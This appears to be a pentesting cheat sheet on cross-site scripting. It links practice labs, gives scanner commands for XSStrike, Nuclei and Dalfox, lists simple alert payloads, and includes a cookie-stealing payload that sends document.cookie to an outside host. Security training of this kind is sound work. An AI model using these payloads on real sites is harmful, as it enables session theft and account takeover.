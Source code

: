 ```yaml
---
description: Cross-site scripting cheat sheet
---
```


# XSS

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

### Playground

* [https://tryhackme.com/r/room/axss](https://tryhackme.com/r/room/axss)
* [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php)
* [https://xss-labs.abay.sh/xss/](https://xss-labs.abay.sh/xss/)

### Tools

**XSStrike**

XSStrike is a Cross Site Scripting detection suite equipped with four hand written parsers, an intelligent payload generator, a powerful fuzzing engine and an incredibly fast crawler.

* [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)

{% code overflow="wrap" %}
```bash
# Install
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
python3 -m venv xsstrike_env
source xsstrike_env/bin/activate
pip3 install -r requirements.txt

# run
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --fuzzer
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php" --crawl -l 3
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --file xss.txt
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj6vjZhXx_XMXjyfIXlDcQ3olR_mJFJ9vyJkDZqUOYNnQCzWDGUce_pb9cGm-TB4wN8g2RChnbB9DOY6ktcPmhpdAa2YNp4sdZKLcYpWKy_-WVCJCnAzvLsT4lhmWRRbVWPYQM9GIYEb0vWxgs92zbVWWtZnZerrO9NsErx2te4t_x4rz9pMxvWNXQetrw/s955/xsstrike.png" alt=""><figcaption><p>XSStrike</p></figcaption></figure>

**Nuclei**

Nuclei has some cool XSS detection template that can be used to hunt low hanging fruit XSS.

{% code overflow="wrap" %}
```bash
nuclei -u "https://brutelogic.com.br/xss.php?a=" -dast -tags xss -silent
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiKsc7jaQE8ZSpeD6GKn80EHz74yUCi4kYhDz9cvS3gyxFa42vuwwVRQWWHPdEh6CJ5t_eY2rqml331wuze62eDs7-1DFqkVO8B21XW9z1spp8AfCYyFILb7F2rGlE8JobvylS_qMAYM5ou_Ak9swAkjA1nOf5_Pe8LJV2m4MgOIw-HT4kTOg9TRzsQaBs/s1195/xss%20nuclei.png" alt=""><figcaption><p>Nuclei XSS</p></figcaption></figure>

**Dalfox**

DalFox is a powerful open-source tool that focuses on automation, making it ideal for quickly scanning for XSS flaws and analyzing parameters. Its advanced testing engine and niche features are designed to streamline the process of detecting and verifying vulnerabilities.

* [https://github.com/hahwul/dalfox](https://github.com/hahwul/dalfox)

Usage:

{% code overflow="wrap" %}
```bash
# basic scan
dalfox url https://brutelogic.com.br/xss.php

# scan with custom payload
dalfox url https://brutelogic.com.br/xss.php --custom-payload xss-payload.txt --skip-bav --only-custom-payload
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEggKvGxnkyI8R8QbZHtRDE7WYJkzhL1UcdB8LQYOK4iB54OFu0pC0OCcCEAjqWRq22Jx7ps2c-clA2GGUehA9IZ3cJwcx0NJ4yPLAP6VaV1R2m9kAed6VNdU8lcZVcxx7mLmnnXAGnf3PlxcAGTYXXVEYAOmM3j0YIjJHk6i5sIGcsXqEKjdtXJy7hGqDA/s923/dalfox.png" alt=""><figcaption><p><strong>Dalfox</strong></p></figcaption></figure>

### Simple Payload

This is a simple payload that I commonly use for XSS testing.

{% code overflow="wrap" %}
```javascript
" autofocus onfocus=alert(document.domain) x="
"/><img src=x onerror=alert(document.domain) />
```
{% endcode %}

For Cookie Stealing

{% code overflow="wrap" %}
```javascript
<img src="x" onerror="fetch('http://10.10.1.3:8000?c=' + encodeURIComponent(document.cookie))">
```
{% endcode %}

### Resources

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
* [https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt](https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt)
